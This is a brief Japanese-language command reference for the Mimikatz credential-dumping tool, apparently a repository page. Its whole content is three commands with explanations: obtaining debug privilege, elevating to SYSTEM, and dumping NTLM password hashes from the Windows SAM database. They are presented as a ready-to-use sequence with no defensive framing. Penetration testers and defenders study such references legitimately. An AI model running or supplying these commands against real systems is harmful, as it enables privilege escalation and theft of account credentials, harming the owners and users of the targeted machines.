 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```